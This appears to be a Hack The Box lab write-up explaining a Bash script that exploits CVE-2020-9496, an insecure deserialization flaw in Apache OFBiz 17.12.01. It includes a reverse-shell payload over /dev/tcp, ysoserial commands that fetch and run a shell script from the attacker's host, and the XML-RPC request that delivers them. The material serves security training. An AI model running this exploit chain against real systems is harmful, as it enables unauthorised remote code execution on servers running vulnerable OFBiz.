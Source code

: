 # Hack The Box. Machines. Monitors

Machine write-up: https://7rocky.github.io/en/htb/monitors

### `deserialization.sh`

This Bash script is the result of putting together all the steps found in the [CVE-2020-9496](https://github.com/g33xter/CVE-2020-9496) to exploit Apache OFBiz version 17.12.01.

The exploiting process requires to have a web server on port 80 (using Python, for example).

It also requires to have a JAR file for [ysoserial](https://github.com/frohoff/ysoserial).

Basically, the script receives three parameters:

```bash
ip=$1
port=$2
yss_path=$3
```

The IP address and port where to listen with `nc`, and the path to the JAR file for [ysoserial](https://github.com/frohoff/ysoserial).

Then, the script itself will create a file called `shell.sh` with a reverse shell payload:

```bash
echo "bash -i >& /dev/tcp/$ip/$port 0>&1" > shell.sh
```

And after that, generate the payloads needed to exlpoit the insecure deserialization vulnerability of OFBiz:

```bash
first=`java -jar $yss_path CommonsBeanutils1 "wget $ip/shell.sh -O /tmp/shell.sh" | base64 | tr -d "\n"` 
second=`java -jar $yss_path CommonsBeanutils1 "bash /tmp/shell.sh" | base64 | tr -d "\n"`
```

These payloads must be inserted inside an XML document and sent to `/webtools/control/xmlrpc`. Since there are two payloads, the best is to write a function and call it twice:

```bash
function send_payload() {
  curl https://127.0.0.1:8443/webtools/control/xmlrpc -d \
"<?xml version=\"1.0\"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns=\"http://ws.apache.org/xmlrpc/namespaces/extensions\">$1</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>" -skH 'Content-Type: application/xml' >/dev/null
}
```

After that, we call the function providing the two previous payloads (waiting some time between both requests) and remove the `shell.sh` file:

```bash
send_payload $first
sleep 2
send_payload $second

rm shell.sh
```

